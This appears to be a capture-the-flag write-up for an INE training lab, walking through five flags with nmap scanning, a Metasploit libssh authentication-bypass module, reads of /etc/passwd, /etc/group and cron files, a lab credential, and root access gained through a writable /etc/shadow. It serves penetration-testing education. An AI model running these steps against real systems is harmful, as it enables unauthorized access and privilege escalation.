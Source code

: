 ## Host & Network Penetration Testing: Post-Exploitation CTF 1

### Flag 1: The file that stores user account details is worth a closer look. (target1.ine.local)

We begin with an Nmap scan which identifies only one open port running a vulnerable service.
```
nmap -sS -T4 target1.ine.local -p-
nmap -sS -T4 -sV -p22 target2.ine.local
searchploit libssh
```
We found two Python exploits, but maybe there is a Metasploit module easier to deploy.
```
use auxiliary/scanner/ssh/libssh_auth_bypass
set action Shell
set SPAWN_PTY true
set RHOSTS target1.ine.local
run
```
After execution, we can use the spawned session.
```
cat /etc/passwd
```
To find the first flag.


### Flag 2: User groups might reveal more than you expect.
```
cat /etc/group
```
To find the second flag.


### Flag 3: Scheduled tasks often have telling names. Investigate the cron jobs to uncover the secret.
```
ls -la /etc/cron.d
```
To find the third flag.


### Flag 4: DNS configurations might point you in the right direction. Also, explore the home directories for stored credentials.
```
cat /etc/hosts
```
To find the fourth flag.

In the home directory, we can find John’s credentials.
```
john:Pass@john123
```

### Flag 5: Use the discovered credentials to gain higher privileges and explore the root's home directory on target2.ine.local.

We try to connect via SSH to target2.ine.local with John's credentials.
```
ssh john@target2.ine.local
```
John, though not a root user, has read and write permissions to the /etc/shadow file.

We can assign the same password to the root user and gain access to the root folder.
```
su root
cd root
cat flag.txt
```
The way we obtained the last flag.


